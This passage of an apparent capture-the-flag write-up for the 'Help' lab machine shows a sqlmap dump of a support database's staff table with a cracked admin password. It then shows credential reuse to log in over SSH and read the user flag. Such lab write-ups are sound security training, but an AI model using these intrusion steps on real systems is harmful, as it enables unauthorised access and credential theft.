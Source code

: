 

I've got the injection. Now I'll run with `--dump`. One table that looks
interesting is:



    Database: support
    Table: staff
    [1 entry]
    +----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+                     
    | id | admin | login      | email              | status | avatar | username | fullname      | timezone | password                                            | signature                      | last_login | department         | newticket_notification |                     
    +----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+                     
    | 1  | 1     | 1547216217 | support@mysite.com | Enable | NULL   | admin    | Administrator | <blank>  | d318f44739dced66793b1a603028133a76ae680e (Welcome1) | Best regards,\r\nAdministrator | 1543429746 | a:1:{i:0;s:1:"1";} | 0                      |                     
    +----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+ 



Specifically the password hash which `sqlmap` was able to break as
"Welcome1".

### SSH

Knowing SSH was open, I tried to connect using a handful of names -
"helpme", "admin", "root", "help". help worked:



    root@kali# ssh help@10.10.10.121
    help@10.10.10.121's password:
    Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-116-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    You have new mail.
    Last login: Fri Jan 11 06:18:50 2019
    help@help:~$



From there I could grab `user.txt`:



    help@help:~$ cat user.txt 
    bb8a7b36...



## Shell as help - Alternative

### Exploit
